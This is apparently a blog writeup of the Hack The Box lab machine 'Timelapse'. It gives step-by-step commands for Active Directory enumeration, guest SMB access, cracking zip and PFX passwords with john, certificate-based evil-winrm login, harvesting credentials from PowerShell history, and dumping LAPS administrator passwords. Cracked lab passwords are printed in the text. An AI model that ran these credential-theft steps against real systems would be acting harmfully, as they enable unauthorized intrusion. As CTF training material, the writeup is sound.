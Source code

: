 ```yaml
---
title: "Timelapse - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Timelapse
![](https://kar0nx.github.io/assets/images/writeup/bae443f73a706fc8eebc6fb740128295.png)
## Reconnaissance

IP: 10.10.11.152
## NMAP

```
nmap -T4 -p- -A 10.10.11.152
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 13:15 UTC
Nmap scan report for 10.10.11.152
Host is up (0.031s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-09-02 21:16:55Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-09-02T21:18:28+00:00; +7h59m50s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49693/tcp open  msrpc             Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-09-02T21:17:48
|_  start_date: N/A
|_clock-skew: mean: 7h59m50s, deviation: 0s, median: 7h59m49s

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   30.24 ms 10.10.14.1
2   30.58 ms 10.10.11.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 197.16 seconds

```

## SMB

```
nxc smb 10.10.11.152 -u "Guest" -p "" --shares
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902152002.png)

```
smbclient \\\\10.10.11.152\\Shares
recures ON
prompt OFF
mget *
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902152326.png)

Starting with DEV folder 

```
zip2john winrm_backup.zip > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902152617.png)

supremelegacy
Now I used pfx2john and cracked password

```
pfx2john legacyy_dev_auth.pfx > hash.pfx
john hash.pfx --wordlist=/usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902153001.png)

thuglegacy
Now using the **pfx** file we can generate **.pem** and **.crt** files which will help us to take access to the Windows machine using **WinRM**. In order to generate the pem file, we can simply use the following command: (This will require a password that we do not know. Let us check.)

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt

```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902153941.png)

looks good, Then I used evil-winrm:

```
evil-winrm -i 10.10.11.152 -c legacyy_dev_auth.crt -k legacyy_dev_auth.pem  -u legacyy -S
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902155245.png)

Grab first flag and enumerating users

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902155521.png)

## Privilege Escalation

Start by checking powershell history

```
cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type ConsoleHost_history.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902160837.png)

svc_deploy E3R$Q62^12p7PLlC%KWaxuaV
Finally we have authenticated user:

```
nxc smb 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902161230.png)

Now let's connect via winrm and search for priv esc

```
evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902164725.png)

Searching for priv esc vectors I found that svc_deploy is in LAPS_Readers group

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902165059.png)

Quick google fu and I got answers:
https://www.hackingarticles.in/credential-dumping-laps/

I tried 2 methods to obtain laps credentials:

```
nxc ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --module laps

impacket-GetLAPSPassword timelapse.htb/svc_deploy:'E3R$Q62^12p7PLlC%KWaxuaV' -dc-ip 10.10.11.152 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902165339.png)

Ah]jg9/u(eRvBKO%P4Ug(2{;
Now simply connect via winrm and grab root flag

```
evil-winrm -i 10.10.11.152 -u Administrator -p 'Ah]jg9/u(eRvBKO%P4Ug(2{;' -S
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902165548.png)

Remember to say WTF?! when you open Administrator Desktop, then navigate to TRX Desktop 